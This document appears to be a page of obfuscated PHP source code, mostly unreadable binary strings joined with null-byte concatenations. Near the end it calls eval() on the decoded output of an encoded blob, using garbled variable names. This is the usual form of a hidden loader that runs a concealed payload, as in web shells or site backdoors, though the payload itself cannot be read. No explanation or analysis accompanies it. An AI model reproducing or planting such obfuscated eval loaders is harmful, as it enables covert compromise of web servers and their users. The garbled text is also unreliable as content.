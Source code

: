 fŒæþcÃ€ñ‘IÓ4Xk{Þ±äç­‰Xq‡dùëlëÕ‰5Op£U«¼ý-â¢E’hûd&ÍÊFlë¥=Úº:#~"±Ïõ¿Ó½ó0[ï‘ABô.“ÄYŸL¡­gzøRIW-qB¦ÀˆºÐ@YÕ+Þþ' . "\0" . '' . "\0" . 'žD†-ß‰´ÙÖ!Ñõ•QÓV´§!]íÁÿB‘Íyf#å[\'Ÿ1©dà˜ÚõË‰€™-‚~Ó79àAuÝ@ÎÂë6ÑdæJldšá•»½R¡øÍ7áhM·Å¨p\';º±£¤b:Rƒÿ×ªUlÌ&ê/î–¸†ì`ekI”"ç{Œr|ôé·éMlŠH¸ŠK¿ÊÕ;|1’w_È"ÌÒE\'íý´k¼«FòÕ%"¾5GŽ•TjÇÍé_‘/éƒÌ\'\'cñÆûc¬~OÀ0:{5B2§qÌClB£¡iW5C¡aõŽX)LÔœƒ¥oZ?ÏÚ*+oYNî½2Óip£t‰$ñ%÷‚ªÞèÔx¾8û…Ø¸½h9(¬ö_)QuÄU@pFÿ8ûBÊh ¬' . "\0" . 'b’ŒAX†' . "\0" . '`¼ÿùG\'C³èï"êJóYÒÍQÆ.Ò}bñ†Ñye$ÚÊÓ<4ø‚<¤³6’;´|÷·e´dÉÑ.‹–©¸CòkS…ß½]¹6×*Às*ë1(l„¥|¶µP´n *Hë­ºK	öO9ºÕ<Xpwa”’ÙHwÉˆÖ€Ì¿Yƒq"wOz¸u¶æi¨ÆÁ1§e
¾1úD¶™ÞÛ¬þ¾¼»Xñö²;s¼7Õh¡Ø÷}AT:·íü°»¥Ä' . "\0" . '°•</<™8ºï(IuHÎfRÉXÎ6j#ŠÙ›·zÛ>*RXá_†Ûa§.U‹ðÒtÿ]Æ}ÙÂ7' . "\0" . 'b©ßµk,Ùd|sfÓ÷Ã2lœÅÓ\\y÷:#Ø‡3iÑPS%C' . "\0" . 'öú
U¸ZÊ×0Ü‹ úU›&±U<¢F¦Ì/ji1tÅòGˆqvÑ kžR9ò4
-¹ý\\š+ß±ºÓµp«|ƒ)»È"+.
¹r§i§µÐqIŸcrkáŒ`¥–¤ÿg¹¾þéf§}©Ê~]ÓŒ¢;œº™ï•
S¼ÇÅìé‡"Ûý<(»zCŒiåºEcr%H±¸Êu°÷Ð9éb-çª‡R­¢µÖ˜$û9ÞZA½áÎþ
ã¸aÛÓ(ÞtÆåJ¶àg¥((à¡!ü÷¤­Ådâ+’ÔF:!¸ìÃÉÚ\\gÜÇê‹,Z\'5 ýÉîKÜ ÓV¶Öôë)ËÜ	¹0>©+Ê»6Õü†þÂ˜ÎkI`_®Óœ|gi3½Ä9{iÏOJˆ”ShÕæç{LO
ñ¯zó$[æªðÔÂ>™À<wUa81]g&mf»Š7ª÷Š¦cMÒ3”í)^®ŽaŠ°4	•õ|]­ËdŸ®ñÌ—Žçå‹´›z/ú,aˆ\\û½î`îöÏ¡nöÑ$' . "\0" . '¸|árQ rÜzô+rñÏ°Ûß¡n],²4Ç\']Æ=(žÆûN[nòúSŽõßK:ÂRWÎ©þvotÉòGó ¢.Ðµ$Ë¼~)²c+GÖ	Ž†^ÃþŒjH1s·›$qÑ÷³“¡!mPƒÙ©íì¡:úè·7{3´ÙñüŽÿÀF.a½™B£(“+zÙW§Ü5L:s(ØÝG‘OÐ ÇˆF,ûÜc J\\0²³¨w@u•‰;uD¬7¥¥$?­
"a<šé«¦ì÷¤ØU¯zÄ©YŸ LØ¯VLOÜQSoÕÃÝ×"ØI ;é9¯@ùÌNž‚Ù›°nI¢î^§Ã›å°Šó`àÒ4¸Î,B¯fÛ–‚Ú|ïØ]áâòÖUù=!?Œhï÷3c*²¥–Æª=&2¼•=Bì}MíJu6È÷I¦‰' . "\0" . 'Á‡T*)S7Ü¢ŒÁmAÚÔ|ñ1Ö™ CÊ“¡M&ƒtœ·‡¡çx´;Dƒ¨­R¼¨¬Îâ*Î
[ÈôåO-PÝsõõ—­¹¥`úB7Ù,©ßƒæ	XÚWç:/¾»ö~PBö>5ù!(OÜÑ)Y/íí>`5ÏôåtB_œ>Íošün3r‚y+–%KO\\¡@e‹QE)Ö®!–
çÂ5œÆËüNö:D®Ãë¡ÌþTýVýIÅúOý"um­qê? ‹0Ú{×	z€\'OäþZ¯˜Ïñ¸nFÍØeÝ,jåã[J€\'–±(DþìPÄ¼ÆŒ„CÞ+å«¬#ø£÷•2ˆ1zdÈw°7-üŸY2¡ÒöÜäÌžvuR–¿yC®©9Z¶˜7.@¡ÔXŽ;ü.B‡9\\å)X¦d‹1X“¨À6x1¸Á~¤muG\'0Y¯6º“QRñ­Q!ûTZ¹õÛoôàðxY/ÄSA¶H\\ª¾¹ÄOòL¡ÈÐ ÛØ£4Þ¦7;U£üî…Ð¸@ö»ÃJPÅS×¹s]Ÿ8æÀC°…õ¿§Ï½BÊ\'7tÐ&•máœ°Äh¾­í²÷òÁN¿7ãOReè¹~èÄ9×zãÃ}“òk}·¸„Âº[ëqÿé_ Z§@›¢Á¯‚Ìže˜Rõ¹sÍjýÃD·Ñ¹‰%‚.¸(ÁŸ×Ã	èkBØº:Ç/yŸ­ÂÛdŸI<‰[âµøÒj?1VrYÓ¢q)c¦.`g>YÂú+A9mˆZËáŠv“‰t!pý9ÙAÎÎí>kÑZƒÑ‡
9MÎ
ó2!ýÑ¶®(KyÕóW Øþ7DŽS—Züà—}Bë?ìv§A4))™%ZT0jÝD7}:®Luh‘)lòÜÜ·ƒ@Î¶Va$*îs®Ú#8xRÖEõ¿â RAuÑ,¸jËŸ|k½S$"”^sæP¾º¥™þÓ	¹Lý÷ÌœÙ‡(@fžwU—Õ¾² ~NÔ…ñ:ä£JénÞëû|[¥^ÌOåˆùt¹©8t ³ÿl.gÇqè¾%Ê™Ø»€`Ì¸{®¯~÷Ã÷iªÁàÞÖ•GGSoõœ|âÛac÷§·§:tëR8êq>+%–E—íU,í}§¦÷ƒb´·SL' . "\0" . 'J^˜,4½! Ö§R—“¡bYþŽþÃêú‘•™å ÀCë™v¿%ÌúIt§½œ¹B©ŽÝÈÁ{jé”iúÜ+Ê
<òúHªØ¹<%SÎÕš¨(¹ ð®/ÐÉPkiÊ;	2·àõïã>†—°ä¾…0V oì¯>ÎU,jåm¬³òåPKþVy/Ê´ÓS†7g?cæ\\ôh3b(e¿Y›’õÉ&9å¢Êëðw4Ë”$ÇóDpîgQ±fOàìÊZÅDHrpåB
õb½	$Þï ÉÅxBbG¾9R±Œù}ïZûÚw›O6Ë˜ò×\\sv¢j	àÑ­•Öèjñ¼6%)§qïRÉ_©‡£Î÷G8úÈÌRõ›‹wÆxQüù»›Ý¦' . "\0" . '@M9ç¢J8¨nÿ=»' . "\0" . ';èE!Ôëý&¿ïq·ÇÏ—ÍQ¡A¡eÑ"Ÿúw×ƒL*‘ª{:•ÂU:zíÈÖö%ûp£º¼>ëCS¬ý/ùW%~±“íÃYIeÔ¯˜P{ôè%ÜN' . "\0" . 'àÙì1³`w*úÏ<¸€×¸:C
.¼KDZ
ôÖ¼È¡ÁÚfaÝ¿(îuÓ' . "\0" . ' È¯Ú±W´ÊfQû­JN‹ãòÇ˜ÙR¯¦‚Ò{é×ÁÉßtq›Œ¶øX^Õ{{•!(|&Ö†·ØJž©÷-`ÄÒi½lÇ—DV2³´•êšð–vñIë~];•Có–Ä+>à|ô}ñ;Eékõ' . "\0" . 'HÍÎ8<ªÂ"‡žW¡ø~Šb6Ë9í,^æ¡ýó¿ÀäøåDnI1#-ØvµŠÍÓ2ãyoÃF˜7ª¥åÏ®o
©I,V…ô¿5:‘LÑÓÌÙ<¡ã½°2¡zEu=øä‰4*uà¹ö~5Bùº|ÄÐ.ŒÊbk:' . "\0" . '¶ªõþx4÷=ŒjQô¶‘#Óóîrè.î½~Ö|ÝèŠêæª~‹~Èé_
Õ“­nÍ‹øØw×çk˜j–n:¾š×\\óÝj+ÄÐúQ‰lsÑ«ßüµñÖ+ÖÀÖòKÞÿóÓE–è©0è±éëÇ¦¢êMÅÔAÂÿL²‡8Ô' . "\0" . '' . "\0" . ''))^(int)$öÈâ˜('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '3636' . "\0" . 'W‡¨' . "\0" . '' . "\0" . '' . "\0" . ''));$Ùí©Ó=$À™¦ò(eval($öÈâ˜('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '¥Xg4^Ó?J"DO”Õ	ÁZuµ°ˆè+²J”dwmt‚ìê¢D\'zï}uQVï-ˆÞë_Qó>Ï{žžï§÷Óû›;3gf~çÌ=£ Qø`ýŒûóRš/{ø^!.„×¿ÞÿL„M}ãôD”\\©’;ômÔÄykÛ!æ¶ð½˜ãZ¢ë1g”hëÂ¹ÔÆþíß' . "\0" . 'ªåsÂ|\\	Ïði©¬?ß¿˜?BÊ ØÓC£¦½…C®kÝ·ÛÓ’Ö*%~;E võ×ž>ì?ˆænÐk%Õ†,‹=µ”­ÇÃ×çàšDså«Þ ìÖ«~Ôõð[Xÿï_f
‚çàÖ$Û*/…Ù{AC^ïÄç’Ö%kÄÐ¤Wƒ
ç^}È“<Dß¬U¿p½G),œé>ê…zçæúžÆ°>¹ýå³#¨Gérí&gßÔ¥%PÔ
íÝèc/,Üì~M*ü²:÷k¤‘Kë7³>“=EÙUük%”æZ~R˜±¿6 T9í+|ônlŽÁGEzÛô$ÅlïEÙ‚£½7§æLÊB?™Õ%~´k¶•»Éß¤CCâcå@RM×gc§;ê•k(æÕ™Î„GŽL~êr4í*ÝÅWÁçcÛzø¬ØÌ' . "\0" . 'Ë2Ãˆ#ó¥³V0éCJº6\'/1£‹£u@ß¨ÆŸ³§ÐÔe)\'Ž–
P,ÁOeÕ`w€~ô07éP<[!$V5he8ÚÁ)Ð+†Šìºœ·rùQLà±ët‘Zì–&Lím™ì~¬†E™zxéÏã”FˆEbÑ§/
‹‚í6•©ÅÊÎcÜUö«è¥á—“§Ô4V7 õô,˜1|Û4Éu9àø±Bl®•ÎÛ€Õöú„d¿„Ä$Ý€’ú=•Ì÷ä:ªEa/“äw÷~TTªë’ú¬•ý‘i[«†ù´ßÙž¿X¨–«ÉtmÍ
)Îásrü“ñgŠdT%¥²Ñ}Æ¹ áj¦öx5)hmÐÆù6K">Ö<Jâ;s¨ZLù¬¤(X {dú—oŒø.%å{T—&ÔËî‚÷Õ™úq:Oe$µõ[+¦ÂØ¹ÉÌB#	*…Aµå#³Š¯É¼GÄ~6¤úåyVmDücà’hJ>øÔ
¥§_ŸŽ@xè{œµC~nf>¯žy£Uô÷•g[TM{íÛóÌ¾¼Ý¦~ó³Ä=Ð¤¡iêD[PÚOÚª¬WðâûsècEÏ=2tw	ù’‚ÝgYÜãõ©ò—«W_¿bG‡"<Œ€âo²